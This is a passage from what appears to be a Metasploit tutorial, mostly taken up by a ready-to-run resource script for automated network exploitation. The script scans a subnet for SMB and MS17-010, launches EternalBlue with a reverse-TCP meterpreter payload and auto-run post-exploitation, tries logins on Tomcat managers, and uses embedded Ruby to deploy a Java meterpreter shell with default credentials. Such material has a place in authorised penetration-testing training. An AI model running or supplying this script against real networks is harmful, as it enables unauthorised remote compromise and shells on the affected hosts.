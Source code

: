 Execute with:
```bash
msf6 > resource smb_scan.rc
```

**Advanced resource script (automated_exploitation.rc):**

```ruby
# Create a workspace for this engagement
workspace -a target_network

# Import existing scan data
db_import /path/to/nmap_results.xml

# Set global variables
setg RHOSTS 192.168.1.0/24
setg LHOST 192.168.1.200
setg LPORT 4444

# SMB version scanning
use auxiliary/scanner/smb/smb_version
set THREADS 16
run

# Scan for MS17-010 vulnerability
use auxiliary/scanner/smb/smb_ms17_010
run

# Attempt to exploit vulnerable systems
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set AutoCheck true
set AutoRunScript multi_console_command -rc /path/to/post_exploit.rc
set ExitOnSession false
run -j

# Scan for web servers
use auxiliary/scanner/http/http_version
set THREADS 25
run

# Tomcat credential scanner
use auxiliary/scanner/http/tomcat_mgr_login
set TARGETURI /manager/html
set THREADS 10
run

# Attempt to exploit Tomcat if credentials found
<ruby>
framework.db.services.each do |service|
  if service.name =~ /http/ and service.port == 8080
    self.run_single("use exploit/multi/http/tomcat_mgr_deploy")
    self.run_single("set RHOSTS #{service.host.address}")
    self.run_single("set RPORT #{service.port}")
    self.run_single("set PAYLOAD java/meterpreter/reverse_tcp")
    self.run_single("set TARGET 0")
    self.run_single("set HttpUsername tomcat")
    self.run_single("set HttpPassword tomcat")
    self.run_single("run -j")
  end
end
</ruby>

# Show active sessions
sessions -l
```